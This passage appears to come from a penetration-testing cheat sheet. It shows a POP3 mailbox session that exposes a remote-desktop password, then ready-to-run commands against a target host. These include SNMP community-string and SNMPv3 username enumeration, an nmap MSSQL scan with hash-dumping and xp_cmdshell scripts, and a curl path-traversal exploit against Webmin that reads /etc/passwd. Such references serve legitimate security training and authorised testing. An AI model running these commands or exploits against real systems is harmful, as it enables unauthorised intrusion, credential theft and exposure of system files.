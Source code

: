          list

         +OK 2 1807
         1 786
         2 1021

         retr 1

         +OK Message follows
         From: jamesbrown@motown.com
         Dear Billy Dean,

         Here is your login for remote desktop ... try not to forget it this time!
         username: billydean
         password: PA$$W0RD!Z


-   SNMP Enumeration -Simple Network Management Protocol

    -   Fix SNMP output values so they are human readable
        `apt-get install snmp-mibs-downloader download-mibs  `
        `echo "" > /etc/snmp/snmp.conf`

    -   SNMP Enumeration Commands

        -   `snmpcheck -t $ip -c public`

        -   `snmpwalk -c public -v1 $ip 1|`

        -   `grep hrSWRunName|cut -d\* \* -f`

        -   `snmpenum -t $ip`

        -   `onesixtyone -c names -i hosts`

    -   SNMPv3 Enumeration
        `nmap -sV -p 161 --script=snmp-info $ip/24`

    -   Automate the username enumeration process for SNMPv3:
        `apt-get install snmp snmp-mibs-downloader  `
        `wget https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb`

    -   SNMP Default Credentials
        /usr/share/metasploit-framework/data/wordlists/snmp\_default\_pass.txt


-   MS SQL Server Enumeration

    -   Nmap Information Gathering

        `nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes  --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip`

-   Webmin and miniserv/0.01 Enumeration - Port 10000

      Test for LFI & file disclosure vulnerability by grabbing /etc/passwd

        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd`
